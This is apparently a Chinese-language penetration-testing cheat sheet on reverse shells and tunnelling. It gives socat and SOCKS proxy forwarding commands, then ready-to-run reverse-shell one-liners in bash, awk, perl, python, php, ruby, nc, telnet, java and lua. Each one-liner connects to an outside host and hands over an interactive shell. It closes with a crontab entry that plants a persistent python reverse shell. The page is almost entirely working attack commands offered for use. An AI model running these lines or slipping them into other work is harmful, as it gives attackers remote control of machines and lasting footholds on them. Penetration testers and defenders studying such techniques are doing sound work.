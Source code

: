 # 渗透过程中的端口反弹

端口转发:
socat TCP-LISTEN:2222,fork TCP:172.17.0.2:22
ssh
nc

socks代理:
ssocks(https://sourceforge.net/projects/ssocks/):
先在vps 执行rcsocket.exe –l 1088 –p 8888 –vv, 监听1088端口
内网机器执行./rssocks –vv –s 192.168.30.103:8888(VPS

反弹

	反弹的各种姿势。
python -c 'import pty; pty.spawn("/bin/bash")'
-------------------
### bash版本：
``` bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
awk 'BEGIN{s="/inet/tcp/0/192.168.3.251/8080";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
注意这个是由解析shell的bash完成，所以某些情况下不支持

###perl版本:
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
###python版本:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.ngrok.io",10036));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
###php版本：
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
###ruby版本：
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
###nc版本：
```bash
nc -e /bin/sh 223.8.200.234 1234

```
###nc不使用-e：
```bash
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe

mkfifo /tmp/fifo|cat /tmp/fifo | /bin/bash -i 2>&1 | nc -l 8000 > /tmp/fifo 正向
mkfifo /tmp/fifo|cat /tmp/fifo | /bin/bash -i 2>&1 | nc 192.168.1.102 8001 > /tmp/fifo 反向

```
###mknod:
```
目标机器：# telnet 192.168.3.251 8080 | /bin/bash | telnet 192.168.3.251 1080
客户端：# nc -lvvp 8080 [传输指令]
		# nc -lvvp 1080 [传输命令结果数据]

目标：mknod test p && telnet 192.168.3.251  8080 0<test | /bin/bash 1>test
客户端：nc -lvvp 8080

mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
```
###java版本：
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/202.103.243.122/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

```
###lua版本：
```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('202.103.243.122','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

计划任务：
(crontab -l;printf "* * * * *  /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.3.251\",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n")|crontab -